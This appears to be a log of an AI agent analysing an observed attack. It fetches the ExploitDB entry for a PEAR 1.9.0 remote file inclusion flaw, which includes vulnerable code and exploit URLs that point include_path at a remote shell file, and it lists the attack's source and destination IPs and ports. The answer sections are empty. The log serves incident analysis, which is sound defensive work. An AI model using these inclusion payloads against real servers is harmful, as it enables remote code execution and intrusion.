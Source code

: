 <details><summary>
<h3>Answer</h3>
</summary></details>

---


## Prompt: how does the exploit work?

**Run ID:** `run_dh6BEkPOaX5MszVlw62mjtxz`

### Funciton Calls
**Step ID:** `step_BChjUrsmeDndxIezwbDPatff`

**Function called:** `get_exploitdb_exploit`

| Argument | Value |
| --- | --- |
| `exploit_id` | `11442` |

| Output | Value |
| --- | --- |
| `11442` | `{'exploitdb': "###########################################################\r\n###\r\n### PEAR v.1.9.0 Multiple Remote File Inclusion Vulnerability\r\n##\r\n###########################################################\r\n###     PEAR, the PHP Extension and Application Repository\r\n###\r\n###     * @package        PEAR\r\n###     * @Version        v.1.9.0\r\n###     * @license        http://opensource.org/licenses/bsd-license.php New BSD License\r\n###     * @link           http://pear.php.net/package/PEAR\r\n###\r\n###########################################################\r\n###\r\n###     Type :  Remote File Inclusion Vulnerability\r\n###     Author: eidelweiss\r\n###     Date  : 2010-02-14\r\n###     Location:       Indonesia ( http://yogyacarderlink.web.id )\r\n###     Contact:        g1xsystem [at] windowslive [dot] com\r\n###     Greetz : AL-MARHUM - YOGYACARDERLINK TEAM - (D)eal (C)yber\r\n###\r\n###########################################################\r\n###\r\n###     Vuln:   if ('../DIRECTORY_SEPARATOR/PEAR' != '@'.'include_path'.'@') {\r\n###                     ini_set('include_path', '../DIRECTORY_SEPARATOR/PEAR');\r\n###                     $raw = true;\r\n###             }\r\n###             @ini_set('allow_url_fopen', true);\r\n###             if (!ini_get('safe_mode')) {\r\n###             @set_time_limit(0);\r\n###             }\r\n###     $_PEAR_PHPDIR = '#$%^&*';\r\n###             define('PEAR_RUNTYPE', 'pecl');\r\n###             require_once 'pearcmd.php';\r\n###             require_once 'PEAR.php';\r\n###             require_once 'PEAR/Frontend.php';\r\n###             require_once 'PEAR/Config.php';\r\n###             require_once 'PEAR/Command.php';\r\n###             require_once 'Console/Getopt.php';\r\n###     =========================================================\r\n###     exploit:        http://victim.com/[DIRECTORY_SEPARATOR]/PEAR_DIR/PEAR.php?include_path=[Shell.txt?]\r\n###             http://victim.com/[DIRECTORY_SEPARATOR]/PEAR_DIR/PEAR.php?_PEAR_PHPDIR =[Shell.txt?]\r\n###########################################################\n            "}` |


<details><summary>
<h3>Answer</h3>
</summary></details>

---


## Prompt: What are the IP addresses and ports involved in the attack?

**Run ID:** `run_XM4wtgzDhuPnLN4QdHDhnBJW`

### Funciton Calls
**Step ID:** `step_B0rCTjJvVmEsIZjaADf4bf6D`

**Function called:** `get_attack_attrs`

| Argument | Value |
| --- | --- |
| `attrs` | `['src_ips', 'dst_ips', 'src_ports', 'dst_ports']` |

| Output | Value |
| --- | --- |
| `src_ips` | `['45.95.147.236', '45.95.147.236', '45.95.147.236', '45.95.147.236']` |
| `dst_ips` | `['172.31.5.68', '172.31.5.68', '172.31.5.68', '172.31.5.68']` |
| `src_ports` | `[56948, 42048, 45492, 47124]` |
| `dst_ports` | `[8080, 8080, 80, 80]` |
